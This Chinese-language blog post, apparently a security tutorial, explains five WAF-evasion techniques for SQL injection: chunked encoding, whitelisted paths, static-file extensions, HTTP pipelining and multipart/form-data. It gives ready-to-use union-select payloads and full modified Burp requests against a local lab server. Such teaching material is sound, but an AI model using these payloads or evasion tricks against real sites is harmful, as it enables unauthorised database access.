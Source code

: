 ```yaml
---
layout: post
title: SQL注入绕过二
categories: 网络安全
description: SQL注入绕过
keywords: SQL注入绕过
---
```


SQL注入绕过技术二



### 1、分块传输绕过

分块传输编码（Chunked transfer encoding）是只在 HTTP 协议 1.1 版本（HTTP/1.1）中提供的一种数据传送机制。以往 HTTP 的应答中数据是整个一起发送的，并在应答头里 Content-Length 字段标识了数据的长度，以便客户端知道应答消息的结束。

传统的 Content-length 解决方案：计算实体长度，并通过头部告诉对方。浏览器可以通过 Content-Length 的长度信息，判断出响应实体已结束。

在http头部加入 Transfer-Encoding: chunked 之后，就代表这个报文采用了分块编码。

分块传输每一个块的开头都有一个十六进制的数,表明这个块的大小，然后接 CRLF("\r\n")。然后是数据本身，数据结束后，还会有CRLF("\r\n")两个字符。有一些实现中，块大小的十六进制数和 CRLF 之间可以有空格。最后一块的块大小为 0，表明数据发送结束。最后一块不再包含任何数据，但是可以发送可选的尾部，包括消息头字段。

使用burp suite抓包然后进行修改头部，把一个正常的请求，添加一个头信息，修改为分块传输，然后修改数据的格式为分块传输的格式

```txt
假设请求体为： id=1&submit=1
修改格式
3
id=
1
&
7
submit=
1
1
0
 
 
```

第一行是长度 第二行是字符串这个长度的字符串， 0 表示传输结束 后面跟上两个空格。

也可以使用 burpsuite 的插件 chunked-coding-converter 进行编码提交

修改编码后可以提交注入语句

```txt
id=1 union select 1, user() --+
```

### 2、信任白名单绕过

有些 WAF 会自带一些文件白名单，对于白名单 waf 不会拦截任何操作，所以可以利用这个特点，可以试试白名单绕过。

白名单通常有目录：

```txt
/admin
/phpmyadmin
/admin.php
```

构建攻击语句

```txt
sqli_str.php?name=1&submit=1

修改为：
sqli_str.php?id=/admin.php?&name=' union select 1,user()--+&submit=1

sqli_str.php/phpmyadmin?name=' union select 1,user()--+&submit=1
```

### 3、静态文件绕过

除了白名单信任文件和目录外，还有一部分 waf 并不会对静态文件进行拦截。例如 图片文件 jpg 、png 、gif 或者 css 、js 会对这些静态文件的操作不会进行检测从而绕过 waf 拦截。

构建攻击语句

```txt
xxx.php?id=1.png&name=' union select 1,user()--+
xxx.php?id=1.js&name=' union select 1,user()--+
```

### 4、pipline绕过

http 协议是由 tcp 协议封装而来，当浏览器发起一个 http 请求时，浏览器先和服务器建立起连接tcp连接，然后发送http数据包（即我们用burpsuite截获的数据），其中包含了一个 Connection 字段，一般值为 close，apache 等容器根据这个字段决定是保持该 tcp 连接或是断开。当发送的内容太大，超过一个 http 包容量，需要分多次发送时，值会变成 keep-alive，即本次发起的 http 请求所建立的 tcp 连接不断开，直到所发送内容结束 Connection 为 close 为止

用 burpsuite 抓包提交 复制整个包信息放在第一个包最后，把第一个包 close 改成 keep-alive 把 brupsuite 自动更新 Content-Length 勾去掉。

第一个包参数的字符要加上长度接着提交即可。有些 waf 会匹配第二个包的正属于正常参数，不会对第一个包的参数进行检测，这样就可以绕过一些 waf 拦截。

burpsuite抓包及修改后的样子

```txt
# 抓到的包发送到Repeater的样子
POST /06/vul/sqli/sqli_id.php HTTP/1.1
Host: 192.168.3.16
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:94.0) Gecko/20100101 Firefox/94.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 13
Origin: http://192.168.3.16
Connection: close
Referer: http://192.168.3.16/06/vul/sqli/sqli_id.php
Cookie: PHPSESSID=h583vnr6md9btmkcn2q5er52h3
Upgrade-Insecure-Requests: 1

id=1&submit=1

# 修改为

POST /06/vul/sqli/sqli_id.php HTTP/1.1
Host: 192.168.3.16
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:94.0) Gecko/20100101 Firefox/94.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 39
Origin: http://192.168.3.16
Connection: keep-alive
Referer: http://192.168.3.16/06/vul/sqli/sqli_id.php
Cookie: PHPSESSID=h583vnr6md9btmkcn2q5er52h3
Upgrade-Insecure-Requests: 1

id=-1+union+select+1,user()--+&submit=1POST /06/vul/sqli/sqli_id.php HTTP/1.1
Host: 192.168.3.16
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:94.0) Gecko/20100101 Firefox/94.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 13
Origin: http://192.168.3.16
Connection: close
Referer: http://192.168.3.16/06/vul/sqli/sqli_id.php
Cookie: PHPSESSID=h583vnr6md9btmkcn2q5er52h3
Upgrade-Insecure-Requests: 1

id=1&submit=1

# 还需要修改burp suite的菜单栏的 Repeater=>Update-Content-Length 把这个选项的勾取消
# 然后点击发送
# 就可以搜到这些被注入出来的内容了 <p class='notice'>hello,1 <br />your email is: root@localhost</p>
```

### 5、利用 multipart/form-data 绕过

在 http 头里的 Content-Type 提交表单支持三种协议

1. application/x-www-form-urlencoded 编码模式 post 提交
2. multipart/form-data 文件上传模式
3. text/plain 文本模式

文件头的属性 是传输前对提交的数据进行编码发送到服务器。其中 multipart/form-data 表示该数据被编码为一条消息，页上的每个控件对应消息中的一个部分。所以，当 waf 没有规则匹配该协议传输的数据时可被绕过。

```txt
#头信息的关键部分
Content-Type: multipart/form-data;boundary=---------------------------28566904301101419271642457175

# boundary：28566904301101419271642457175 这个值是随机值，随便，但是要和下面保持一致

# 请求体的部分
---------------------------28566904301101419271642457175
Content-Disposition: form-data; name="id"
-1 union select 1,user()
---------------------------28566904301101419271642457175
Content-Disposition: form-data; name="submit"
submit
---------------------------28566904301101419271642457175
```

如果没有检测这个可能性的话，可以进行注入

